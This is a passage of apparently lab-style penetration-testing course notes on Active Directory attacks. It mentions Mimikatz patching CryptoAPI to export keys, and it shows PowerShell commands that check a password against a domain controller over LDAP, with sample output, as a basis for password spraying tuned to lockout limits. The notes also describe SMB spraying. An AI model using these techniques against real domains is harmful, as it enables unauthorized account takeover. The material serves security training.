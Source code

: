 We can rely again on Mimikatz to accomplish this. The crypto17 module contains the capability to either patch the CryptoAPI18 function with crypto::capi19 or KeyIso20 service with crypto::cng,21 making non-exportable keys exportable.

### Password Attacks

When performing a brute force or wordlist authentication attack, we must be aware of account lockouts. Too many failed logins may block the account for further attacks and possibly alert system administrators.

In the Module Active Directory Introduction and Enumeration, we used the DirectoryEntry constructor without arguments, but we can provide three arguments, including the LDAP path to the domain controller, the username, and the password:

```bash
PS C:\Users\jeff> $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
PS C:\Users\jeff> $PDC = ($domainObj.PdcRoleOwner).Name

PS C:\Users\jeff> $SearchString = "LDAP://"

PS C:\Users\jeff> $SearchString += $PDC + "/"

PS C:\Users\jeff> $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

PS C:\Users\jeff> $SearchString += $DistinguishedName

PS C:\Users\jeff> New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```

If the password for the user account is correct, the object creation will be successful.


```bash
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com
```

If not, you'll see something along the line of the following:

```bash
format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or
password is incorrect.
"
    + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemException
    + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.FormatDefaultCommand
```

We could use this technique to create a PowerShell script that enumerates all users and performs authentications according to the Lockout threshold and Lockout observation window.

The second kind of password spraying attack against AD users leverages SMB. This is one of the traditional approaches of password attacks in AD and comes with some drawbacks. For example, for every authentication attempt, a full SMB connection has to be set up and then terminated. As a result, this kind of password attack is very noisy due to the generated network traffic. It is also quite slow in comparison to other techniques.
